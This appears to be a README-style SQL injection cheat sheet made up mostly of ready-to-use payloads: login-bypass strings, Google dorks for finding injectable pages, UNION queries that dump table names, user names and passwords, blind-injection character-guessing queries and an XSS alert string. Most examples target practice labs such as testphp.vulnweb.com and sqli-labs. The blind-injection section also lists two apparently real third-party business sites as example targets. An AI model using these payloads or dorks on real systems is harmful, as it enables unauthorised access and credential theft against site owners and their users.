 # SQL-CHEAT-SHEET-
Use our SQL Injection Cheat Sheet to learn about the different variants of the SQL Injection vulnerability. In this cheat sheet you can find detailed technical information about SQL Injection vulnerabilities against MySQL, Microsoft SQL Server, Oracle and PostgreSQL SQL servers.

# About the SQL Injection Cheat Sheet

This SQL injection cheat sheet was originally published in 2007 by Ferruh Mavituna on his blog. We have updated it and moved it over from our CEO's blog. Currently this SQL Cheat Sheet only contains information for MySQL, Microsoft SQL Server, and some limited information for ORACLE and PostgreSQL SQL servers. Some of the samples in this sheet might not work in every situation because real live environments may vary depending on the usage of parenthesis, different code bases and unexpected, strange and complex SQL sentences. 

*********************************************************************************************************************************************************************************
------------------------------------------------ AUTHENTICATION BYPASS ATTACK ------------------------------------------------

1’ or ‘1’ = ‘1
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin' or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

inurl:admin_login.php
inurl:admin/login.php
inurl:admin-login.php
inurl:adminlogin.php
*********************************************************************************************************************************************************************************
######################## Some Google dorks for sql injection #####################
inurl:sql.php?id=
inurl:news_view.php?id=
inurl:select_biblio.php?id=
inurl:humor.php?id=
inurl:aboutbook.php?id=
inurl:fiche_spectacle.php?id=
inurl:article.php?id=
inurl:show.php?id=
inurl:staff_id=
inurl:newsitem.php?num=
inurl:readnews.php?id=

inurl: php?id=
inurl: asp?id=
inurl: net?id=
*********************************************************************************************************************************************************************************
______________________________ ERROR & UNION SQL INJECTION _______________________

eg: http://vulnsite.com/news.php?id=1          :---  id=1' or id=2-1
to provoke errors
?id=0X01
?id=9999999999999999999999999999999999999999999999
?id=2"
?id=3") and '1'='1'
union select 1,2,3,4,5--+
php?id=-23 union select 1,2,3,4,5--+
.php?id=23 and false union select 1,2,3,4,5--+

testphp.vulnweb.com/artists.php?artist=-1 order by 4--
testphp.vulnweb.com/artists.php?artist=-1 order by 3--
testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3--
testphp.vulnweb.com/artists.php?artist=-1 union select 1,database(),3--
testphp.vulnweb.com/artists.php?artist=-1 union select 1,version(),3--
testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --
testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273 -- 
union select 1,group_concat(uname,0x3a,pass,email),3 from users--

*********************************************************************************************************************************************************************************
################# FOR BLIND SQL #######################

https://www.thaibusinessnews.com/readnews.php?id=2114

https://www.hotelone.com.pk/article.php?id=15

Two types of blind sql are there:- Normal Blind, Totally Blind

How to check? 
Conditions:- True or False

No Changes on the default page is "True" else "False"

Check for subselect or subquery (used for comparing)

id=1 and (select 1)=1 to check whether we can execute subquerry or not

and (select 1 from login limit 0,1)=1 ///Guessing method to find the table name
 
and (select substring(concat(1,password),1,1) from login limit 0,1)=1 //Guessing column name

and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>80 //checks the first character with the ascii value provided, if its true then we need to increase the value, if its false then we got the character.
*********************************************************************************************************************************************************************************
MACHINE_IP/sqli-labs/Less-8/?id=1' OR 1 < 2 --+ = True

MACHINE_IP/sqli-labs/Less-8/?id=1' OR 1 > 2 --+ = False

.

In sql language, there's a really useful function called SUBSTR() which extracts a substring from a string (starting at any position). 
It takes 3 input values:
1. Operated text (in our case database name)
2. Character to start with
3. Number of characters to extract


AND (substr((select database()),1,1)) - this will return us the first character of the database name. 


1' substr((select database()),1,1)) = s --+


MACHINE_IP/sqli-labs/Less-8/?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+
 

Now try guessing the second letter using the comparison technique.

MACHINE_IP/sqli-labs/Less-8/?id=1' AND (ascii(substr((select database()),2,1))) < 115 --+


<script>alert("Happy-Hacking")</script>

